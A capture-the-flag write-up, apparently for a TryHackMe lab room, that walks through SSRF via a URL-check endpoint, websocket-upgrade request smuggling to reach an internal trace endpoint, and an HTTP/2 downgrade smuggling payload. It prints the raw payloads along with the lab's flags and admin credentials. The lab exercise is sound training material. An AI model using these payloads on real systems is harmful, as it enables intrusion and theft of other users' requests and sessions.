

# El Bandito

## Token

`6447.902`

## Sites

### Port 8080

We have an interesting page at /services.html, it makes a call to:

```
/isOnline?url=http://bandito.websocket.thm
```

Shortcut to eureka moment, we can use the 101 server from a previous room to bypass the check:

```
GET /isOnline?url=http://192.168.140.170:1337 HTTP/1.1
Host: bandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://bandito.thm:8080
Sec-WebSocket-Key: x3cVspotHS0ttOlggVN1aA==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /trace HTTP/1.1
Host: bandito.htm
```

This responds with:

```
{"timestamp":1764910350538,"info":{"method":"GET","path":"/admin-flag","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"43","Date":"Fri, 05 Dec 2025 04:52:30 GMT","Connection":"close","status":"200"}}}},{"timestamp":1764910350537,"info":{"method":"GET","path":"/admin-creds","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"55","Date":"Fri, 05 Dec 2025 04:52:30 GMT","Connection":"close","status":"200"}}}}
```

Not sure why it repeats over and over not sure yet why 👀.

/admin-flag well it’s the flag

```
THM{:::MY_DECLINATION:+62°_14'_31.4'':::}
```

/admin-creds shows:

```
username:hAckLIEN password:YouCanCatchUsInYourDreams404
```

### Port 80

We can now login with the credentials we got above.

Analyzing the Burp traffic, we can see that the site is using HTTP 2. So we test for a downgrade and we get is possible.

Then we use this payload:

```
POST / HTTP/2
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aTJo-g.BR9HfN6uk3gFNLvLhGBliNvXjAU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 0

POST /send_message HTTP/1.1
Host: bandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aTJo-g.BR9HfN6uk3gFNLvLhGBliNvXjAU
Content-Type: application/x-www-form-urlencoded
Content-Length: 730

data=
```

Is similar to the one I used in a previous smuggling room, mind the no line end at the end and the long content-length.

Then we send the message, we can reload the page and:



And the flag is

```
THM{¡!¡RIGHT_ASCENSION_12h_36m_25.46s!¡!}
```
